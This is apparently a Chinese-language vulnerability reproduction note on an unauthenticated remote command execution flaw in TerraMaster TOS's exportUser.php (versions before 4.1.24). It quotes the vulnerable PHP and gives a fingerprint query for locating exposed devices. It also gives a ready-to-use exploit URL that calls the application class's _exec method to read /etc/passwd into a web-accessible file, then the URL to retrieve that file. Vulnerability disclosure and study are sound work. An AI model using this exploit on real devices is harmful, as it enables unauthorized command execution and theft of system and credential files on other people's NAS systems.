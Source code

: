 # TerraMaster TOS exportUser.php 远程命令执行

## 漏洞描述

TerraMaster TOS exportUser.php 文件中存在远程命令执行漏洞

## 漏洞影响

```
TerraMaster TOS < 4.1.24
```

## 网络测绘

```
"TerraMaster" && header="TOS"
```

## 漏洞复现

出现漏洞的文件 ***exportUser.php***

```php
<?php
    include_once "./app.php"; // [1] autoload classes
    class CSV_Writer{
        ...
    }
    $type = $_GET['type'];
    $csv = new CSV_Writer();
    if($type == 1){
        $P = new person();
        $data = $P->export_user($_GET['data']);
        $csv->exportUser($data);
    } else if($type == 2) {
        $P = new person();
        $data = $P->export_userGroup($_GET['data']);
        $csv->exportUsergroup($data);
    } else { // [2] type value is bigger than 2
        //xlsx通用下载
        $type = 0;
        $class = $_GET['cla'];
        $fun = $_GET['func'];
        $opt = $_GET['opt'];
        $E = new $class();
        $data = $E->$fun($opt); // [3] vulnerable code call
        $csv->exportExcel( $data['title'], $data['data'], $data['name'], $data['save'], $data['down']);
    }
?>
```

在其他文件的代码检查期间，也发现有一种方法可以利用TOS软件中预先存在的类来利用此问题。
位于**include/class/application.class.php**中的PHP类是在运行TOS软件的设备上执行命令的最佳人选。

由于*exportUser.php*没有身份验证控件，因此未经身份验证的攻击者有可能通过提供以下值作为HTTP GET参数来实现代码执行。

```plain
http://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>test.txt
```

返回200后再次访问

```plain
http://xxx.xxx.xxx.xxx/include/test.txt
```

![](images/202202101951230.png)